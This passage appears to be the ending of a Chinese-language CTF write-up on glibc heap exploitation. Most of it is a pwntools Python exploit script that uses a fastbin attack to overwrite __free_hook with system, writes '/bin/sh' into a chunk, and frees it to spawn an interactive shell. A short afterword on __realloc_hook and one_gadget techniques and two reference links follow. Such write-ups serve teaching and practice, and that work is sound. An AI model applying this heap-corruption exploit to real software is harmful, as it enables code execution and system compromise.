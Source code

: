 ```python
	free_hook=base+0x3c67a8
	log.info("system: "+hex(system))
	log.info("free_hook:"+hex(free_hook))
	alloc(0x60) #4
	free(4)
	fill('2',p64(malloc_hook-0x30+0xd))
	gdb.attach(p)
	alloc(0x60)#4
	
	alloc(0x60) #fake 6
	one=base+0xf1207
	fill('6',p8(0)*3+p64(0)*15+p64(free_hook-0xb58))
	
	alloc(0xb30)#7
	fill('7','/bin/sh')
	alloc(0x60)#8
	fill('8',p64(0)+p64(system))
	#gdb.attach(p)
	free(7)
fast()
leak()
pwn()
p.interactive()
```



## 后记

这算是弥补了，上篇文章的遗憾吧。了解另一种通过`__realloc_hook`利用one_gatget方式。更重要的是利用`__free_hook`来写shell来调用。



## 参考文献

https://blog.csdn.net/hoi0714/article/details/7909488

https://bbs.pediy.com/thread-246786.htm#msg_header_h2_3